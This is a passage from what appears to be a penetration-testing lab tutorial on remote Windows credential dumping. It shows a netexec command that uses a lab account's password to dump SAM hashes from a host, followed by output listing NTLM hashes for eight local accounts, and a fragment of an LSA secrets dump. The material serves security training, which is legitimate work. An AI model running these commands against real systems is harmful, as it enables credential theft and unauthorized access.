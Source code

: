 ```shell-session
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

### **Dumping SAM Remotely**

Similarly, we can use netexec to dump hashes from the SAM database remotely.

```shell-session
$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

Practice the techniques taught in this section while you work to complete the challenge questions.
